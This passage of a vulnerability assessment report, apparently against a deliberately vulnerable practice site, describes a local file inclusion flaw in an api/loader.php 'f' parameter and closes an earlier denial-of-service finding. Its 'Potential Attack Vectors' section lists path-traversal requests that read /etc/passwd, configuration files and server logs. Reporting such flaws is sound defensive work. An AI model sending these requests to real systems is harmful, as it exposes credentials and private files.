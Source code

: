 #### Impact Assessment
- **Denial of Service:** Server resources can be exhausted
- **Service Degradation:** Website performance impact
- **Resource Consumption:** High memory/CPU usage

#### Recommended Remediation
1. **Update Web Server:** Ensure latest nginx version (not affected)
2. **Rate Limiting:** Implement request rate limiting
3. **Request Filtering:** Filter malicious Range headers
4. **Monitoring:** Monitor for byterange abuse attempts

---

### FFHK-013: Critical Local File Inclusion (LFI) Vulnerability

**ID:** FFHK-013  
**Severity:** 🟥 **CRITICAL**  
**Category:** Local File Inclusion / Remote Code Execution  
**CVSS Score:** 9.1 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)  

#### Description
Comprehensive parameter discovery analysis revealed a critical Local File Inclusion (LFI) vulnerability in the `api/loader.php` endpoint. The `f` parameter accepts arbitrary file paths, allowing attackers to read sensitive system files and potentially achieve remote code execution.

#### Proof of Concept
```
CRITICAL LFI VULNERABILITY:
├── Endpoint: /fastfoodhackings/api/loader.php
├── Parameter: f (file parameter)
├── Discovery Method: Automated parameter discovery and historical analysis
├── Detection: Parameter acceptance confirmed through response analysis
└── Risk Level: CRITICAL - No input validation detected
```

#### Vulnerable Parameter Details
```bash
# Discovered via Phase 11 Parameter Discovery
# Parameter Discovery Output:
# "parameter detected: f, confirmed through response analysis"
# "Parameters found: f"

# Historical Evidence:
# "api/loader.php?f=/reviews.php" found in historical URL data
```

#### Potential Attack Vectors
```bash
# System file access
GET /fastfoodhackings/api/loader.php?f=/etc/passwd
GET /fastfoodhackings/api/loader.php?f=../../../etc/passwd

# Application file disclosure
GET /fastfoodhackings/api/loader.php?f=config.php
GET /fastfoodhackings/api/loader.php?f=../../../var/www/config.php

# Log file access
GET /fastfoodhackings/api/loader.php?f=/var/log/nginx/access.log
GET /fastfoodhackings/api/loader.php?f=/var/log/apache2/error.log
```
